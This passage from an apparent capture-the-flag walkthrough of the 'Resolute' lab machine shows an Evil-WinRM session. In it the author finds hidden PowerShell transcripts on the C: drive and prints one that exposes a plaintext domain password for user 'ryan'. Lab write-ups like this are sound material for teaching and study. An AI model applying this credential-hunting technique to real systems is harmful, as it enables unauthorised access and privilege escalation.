 ##### And we got our user flag.

## Root Flag

##### After looking around melanie’s home directory and not finding anything useful, I went to the filesystem C drive. Normally we didn't get anything but i try to see hidden files then PSTranscripts when we check whole folder we got our file.
```sh
*Evil-WinRM* PS C:\PSTranscripts\20191203>type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
**********************                                                                                                                                                                                                                                                                                              [9/576]
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan                                      
RunAs User: MEGABANK\ryan    
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800              
PSVersion: 5.1.14393.2273    
PSEdition: Desktop    
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273                                                                                                
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Command start time: 20191203063455
**********************
PS>TerminatingError(): "System error."
>> CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')
if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
>> CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="Stream"; value="True"
**********************
Command start time: 20191203063455
**********************
PS>ParameterBinding(Out-String): name="InputObject"; value="PS megabank\ryan@RESOLUTE Documents> "
PS megabank\ryan@RESOLUTE Documents>
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
>> CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="Stream"; value="True"
**********************
Windows PowerShell transcript start
Start time: 20191203063515
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
```